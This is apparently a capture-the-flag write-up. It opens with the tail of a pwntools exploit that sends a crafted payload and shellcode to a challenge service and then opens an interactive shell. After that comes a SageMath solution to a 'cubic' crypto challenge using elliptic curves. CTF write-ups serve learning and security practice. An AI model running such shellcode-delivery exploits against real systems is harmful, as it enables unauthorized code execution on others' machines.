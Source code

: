 ```
for i in range(len(shellcode)):
    payload += chose(5)
    payload += chose(1)
payload += chose(9)
p.sendafter('cmd&gt; ', payload)
p.send(shellcode)

p.interactive()
p.close()
```



## Crypto

### <a class="reference-link" name="cubic"></a>cubic

得到六组解之后直接粘贴在nc上

```
def is_valid(x):
    return (((3 - 12*N -4*N^2 - ((2*N + 5)*sqrt(4*N^2 + 4*N -15))) / 2) &lt; x &lt; -(2*(N + 3)*(N + sqrt(N^2 - 4)))) or \
                ((-2*(N + 3)*(N - sqrt(N^2 - 4))) &lt; x &lt; (-4*(N + 3)/(N + 2)))


N = 6
R.&lt;x,y,z, nn,dd&gt; = QQ[]
F = x*(z+x)*(x+y) + y*(y+z)*(x+y) + z*(z+x)*(z+y) - 6*(x+y)*(y+z)*(x+z)


E = EllipticCurve([0, 4*N^2 + 12*N - 3, 0, 32*(N + 3), 0])

a, b, c = -8, -7, 5
x = (-4*(a + b + 2*c)*(N + 3)) / ((2*a + 2*b - c) + (a + b)*N)
y = (4*(a - b)*(N + 3)*(2*N + 5)) / ((2*a + 2*b - c) + (a + b)*N)
P = S = E([x, y])

cnt = 1
while cnt &lt; 7:
    S = S + P
    if is_valid(S[0][0]):
        x = S[0][0]
        y = S[1][0]
        a, b, c = var('a, b, c')
        aa = (8*(N + 3) - x + y) / (2*(4 - x)*(N + 3))
        bb = (8*(N + 3) - x - y) / (2*(4 - x)*(N + 3))
        cc = (-4*(N + 3) - (N + 2)*x) / ((4 - x)*(N + 3))
        a, b, c = solve([a == aa * (a + b + c), b == bb * (a + b + c), c == cc * (a + b + c)], a, b, c)[0]
        print('solution', cnt)
        print('-' * 64)     
        cnt += 1
        then_res = R(a(nn, dd))
        a = abs(then_res.coefficients()[1].numerator())
        print(a)
        then_res = R(b(nn, dd))
        b = abs(then_res.coefficients()[1].numerator())
        print(b)
        c = abs(then_res.coefficients()[1].denominator())
        print(c)
        print('-' * 64)
```
